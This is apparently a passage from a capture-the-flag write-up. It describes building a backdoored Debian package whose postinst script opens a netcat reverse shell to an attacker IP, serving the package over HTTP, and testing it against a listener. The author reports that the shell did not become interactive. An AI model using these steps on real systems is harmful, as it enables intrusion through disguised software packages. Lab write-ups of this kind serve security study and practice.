 ```bash
vim control

# this is the main attack script
# instructions to run post installation
# copy and paste from nc_deb/DEBIAN/postinst, change IP to console IP
# initial version had a reverse shell 
#   nc <CONSOLE_IP> 4343 -e bash &
vim postinst
chmod 555 postinst

# make the package
dpkg-deb --build ../

# make the http server file system
mkdir -p pub/jfrost/backdoor

# move the deb to the proper location
mv ...deb pub/jfrost/backdoor/suriv_amd64.deb

# serve and wait - move to a new window for other commands
python3 http.server 80
```
### Malicious Deb Testing
This was tested using an ubuntu docker image. Run the attacker nc listener `nc -nlvp 4343` on the localhost and install the malicious package on the image. The `postinst` script will need to be updated to reflect the IPs of the local system. Tested and verified.
### Results
Reverse shell failure. For whatever reason the reverse shell reaches back and creates the connection to the listener but it does not get an interactive sessions. After some proponderance of the evidence, likely the process is killed by a watchdog monitoring the dpkg installation process. I also tried a bind shell which too did not work, likely because of the same reason.